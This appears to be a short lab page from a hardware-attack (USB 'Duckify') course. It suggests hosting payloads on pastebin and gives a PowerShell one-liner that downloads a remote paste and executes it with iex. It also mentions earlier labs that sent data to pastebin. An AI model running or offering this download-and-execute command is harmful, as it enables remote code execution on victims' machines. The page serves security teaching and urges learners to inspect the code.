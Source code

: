 ```yaml
---
layout: default
title: Encore!(2)
nav_order: 11
---
```


In our labs, we sent data to pastebin. But what if we used pastebin (or github) to host our malicious code?!
Duckify this powershell command:
```Powershell
iex((iwr http://pastebin.com/raw.php?i=sWacjDpa).content)
```
But before you do. 

PLEASE LOOK AT THE CODE AND UNDERSTAND IT!

Always be vigilant!
